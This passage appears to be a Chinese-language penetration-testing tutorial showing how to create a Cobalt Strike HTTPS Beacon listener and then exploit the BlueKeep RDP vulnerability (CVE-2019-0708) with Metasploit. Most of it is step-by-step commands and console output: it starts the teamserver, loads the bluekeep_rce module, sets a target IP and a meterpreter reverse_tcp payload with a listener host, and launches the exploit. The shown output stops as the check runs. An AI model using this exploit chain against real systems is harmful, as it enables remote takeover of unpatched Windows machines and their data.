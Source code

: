 ## 1、Cobalt Strike 上的操作

首先来到 Cobalt Strike 目录下，启动 Cobalt Strike 服务端

```
./teamserver yourip yourpassword
```

之后打开 Cobalt Strike 客户端进行连接

```
./start.sh
```

输入服务端密码连接上之后，点击 Cobalt Strike --> Listeners 打开 Listeners 界面，点击下方的 Add 按钮，输入 Beacon 名称，这里选择的是 HTTPS Beacon，添加上主机 IP，点击保存，即可创建一个 HTTPS Beacon

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/Snipaste_2020-07-24_20-07-57.png)

## 2、Metasploit Framework 上的操作

首先，打开 Metasploit Framework

```
msfconsole 
```

调用 CVE-2019-0708 模块

```
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
```

设置靶机 IP

```
set rhost 192.168.175.177
```

设置 Payload

```
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.175.200
```

发起攻击

```
exploit
```

整体过程如下：

```
root@kali:~# msfconsole

msf5 > use exploit/windows/rdp/cve_2019_0708_bluekeep_rce

msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set rhost 192.168.175.177
rhost => 192.168.175.177

msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp

msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set lhost 192.168.175.200
lhost => 192.168.175.200

msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > exploit
[*] Started reverse TCP handler on 192.168.175.200:4444 
[*] 192.168.175.177:3389 - Using auxiliary/scanner/rdp/cve_2019_0708_bluekeep as check
```